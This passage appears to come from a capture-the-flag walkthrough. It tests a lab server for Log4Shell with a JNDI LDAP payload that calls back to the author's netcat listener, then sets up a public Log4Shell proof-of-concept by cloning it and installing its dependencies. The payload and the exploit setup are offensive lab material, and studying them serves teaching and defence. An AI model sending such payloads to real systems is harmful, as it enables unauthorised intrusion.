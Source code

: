 To test for this, I’ll send listen on TCP port 389 (LDAP default) with `nc`
and then enter a payload that will attempt to contact my host on 389:

    
    
    ${jndi:ldap://10.10.14.6/test}
    

If there’s a connection to my host, then the server is likely vulnerable to
Log4Shell. On sending, I get a connection:

    
    
    oxdf@hacky$ nc -lnvp 389
    Listening on 0.0.0.0 389
    Connection received on 10.10.11.249 49682
    0
     `
    

### Log4Shell Exploit

#### Prep

I had good luck with [this POC](https://github.com/kozmer/log4j-shell-poc)
during Hackvent, so I’ll use it again. I’ll clone the repo to my computer and
install the dependencies:

    
    
    oxdf@hacky$ git clone https://github.com/kozmer/log4j-shell-poc.git
    Cloning into 'log4j-shell-poc'...
    remote: Enumerating objects: 52, done.
    remote: Counting objects: 100% (12/12), done.
    remote: Compressing objects: 100% (12/12), done.
    remote: Total 52 (delta 0), reused 1 (delta 0), pack-reused 40
    Receiving objects: 100% (52/52), 38.74 MiB | 44.42 MiB/s, done.
    Resolving deltas: 100% (7/7), done.
    oxdf@hacky$ cd log4j-shell-poc/ 
    oxdf@hacky$ pip install -r requirements.txt
    Defaulting to user installation because normal site-packages is not writeable
    Requirement already satisfied: colorama in /usr/lib/python3/dist-packages (from -r requirements.txt (line 1)) (0.4.4)
    Collecting argparse
      Using cached argparse-1.4.0-py2.py3-none-any.whl (23 kB)
    Installing collected packages: argparse
    Successfully installed argparse-1.4.0  
    

There’s also instructions on the repo for downloading a specific Java binary
from [this
page](https://www.oracle.com/java/technologies/javase/javase8-archive-
downloads.html). I’ll download
[jdk-8u20-linux-x64.tar.gz](https://download.oracle.com/otn/java/jdk/8u20-b26/jdk-8u20-linux-x64.tar.gz)
from he bottom of that page, and extract it:

    
